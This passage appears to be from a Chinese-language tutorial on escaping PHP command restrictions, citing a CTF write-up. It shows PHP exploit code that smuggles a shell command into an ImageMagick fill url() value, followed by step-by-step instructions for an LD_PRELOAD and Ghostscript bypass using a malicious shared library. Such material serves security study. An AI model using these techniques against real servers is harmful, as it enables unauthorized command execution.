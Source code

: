 ```php
fill 'url(https://127.0.0.1/image.jpg"|$command>$data_file")'
pop graphic-context
EOF;

file_put_contents("$imagick_file", $exploit);
$thumb = new Imagick();
$thumb->readImage("$imagick_file");
$thumb->writeImage(tempnam('/tmp', 'img'));
$thumb->clear();
$thumb->destroy();

echo file_get_contents($data_file);
?>
```

### LD_PRELOAD + ghostscript

可参考：[TCTF2019 WallBreaker-Easy 解题分析](https://xz.aliyun.com/t/4688).

当 ImageMagick 处理到以下 11 种格式文件时，会调用 GhostScript 库进行处理:

```php
EPI EPS EPS2 EPS3 EPSF EPSI EPT PS PS2 PS3 PS4 PDF
```

**攻击流程：**

1. 我们应该传入一个 ept 后缀文件和一个编译好的 so 文件;

2. 然后写一个 php 文件通过 putenv 函数修改 LD_PRELOAD 加载该 so;

3. 接着 php 里创建一个 Imagick 对象处理该 ept 文件，此时由于该后缀 imagemagick 会调用 ghostscript 库对该文件进行处理;

4. 而编译好的 so 文件其实作用在于重新编译了 ghostscript 运行过程中要调用的 fflush 方法，我们将想执行的命令写入该方法中就能实现命令执行的效果。


查看是否调用 `GhostScript`:

```bash
convert 1.png ept:1.ept
strace -f php image.php 2>&1 | grep -C2 execve
```

查看 `/usr/bin/gs` 看一下这个程序都有哪些符号：

